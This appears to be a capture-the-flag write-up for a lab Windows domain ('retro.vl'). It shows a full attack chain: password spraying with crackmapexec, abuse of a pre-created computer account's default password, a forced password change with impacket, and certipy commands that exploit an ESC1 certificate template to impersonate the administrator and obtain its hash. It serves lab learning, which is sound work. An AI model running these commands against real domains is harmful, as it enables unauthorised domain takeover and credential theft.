







## INFO


```
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```





Guest / Anonymous Access to the share with READ permissions !


```
# cat Important.txt
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```


Lets grab the usernames , and do some password spray'n.

```
└─# crackmapexec smb 10.10.97.162 -u guest -p '' --rid-brute
```


```
└─# crackmapexec smb 10.10.97.162 -u user_lst -p user_lst --no-bruteforce --continue-on-success
```

Cool ! The password of common trainee user account is `trainee`.

We got access to Notes share.





```
# cat ToDo.txt
Thomas,

after convincing the finance department to get rid of their ancienct banking software it is finally time to clean up the mess they made. We should start with the pre created computer account. That one is older than me.

Best
James
```


Cool ! Now what's Pre-Created Computer Account and how can we leverage that into an attack ? 


## Pre-Created Computer Accounts


Pre-creating a computer means adding a computer object to AD without using it to join a host to the domain right away, so it can be used at a later time.

When you pre-create computer accounts with the **Assign this computer account as a pre-Windows 2000 computer** checkmark, the password for the computer account becomes the same as the computer account in lowercase. For instance, the computer account `DavesLaptop$` would have the password `daveslaptop`.


There's BANKING$ computer account , which we got while bruteforcing the usernames. Lets check which password banking.


```
└─# crackmapexec smb 10.10.97.162 -u BANKING$ -p banking
```



Now in order to use this account , first we need to force change the password and attempt to login .!

```
└─# impacket-changepasswd retro.vl/'BANKING$':banking@10.10.97.162 -newpass p@ssw0rd -p rpc-samr
```




Cool ! Enumerating ADCS , we found RetroClients Cert. is vulnerable to ESC1.

```
└─# certipy-ad find -username 'trainee@retro.vl' -password 'trainee' -enabled -dc-ip 10.10.97.162 -stdout -vulnerable
```




Requesting a ticket impersonating administrator .
```
└─# certipy-ad req -username 'BANKING$@retro.vl' -password 'p@ssw0rd' -dc-ip 10.10.97.162 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -target DC.retro.vl -key-size 4096
```



```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.97.162
```



Got hash of the administrator !

THE DC HAS BEEN PWNED !!


## NOTE

Certipy failed with the `CERTSRV_E_KEY_LENGTH` which means that the public key does not meet the minimum size required by the specified certificate template.
```
Check at the template --> Minimum RSA Key Length , and change it in the command.     -key-size ....
```


https://medium.com/@offsecdeer/finding-weak-ad-computer-passwords-e3dc1ed220df
https://trustedsec.com/blog/diving-into-pre-created-computer-accounts
https://github.com/ly4k/Certipy
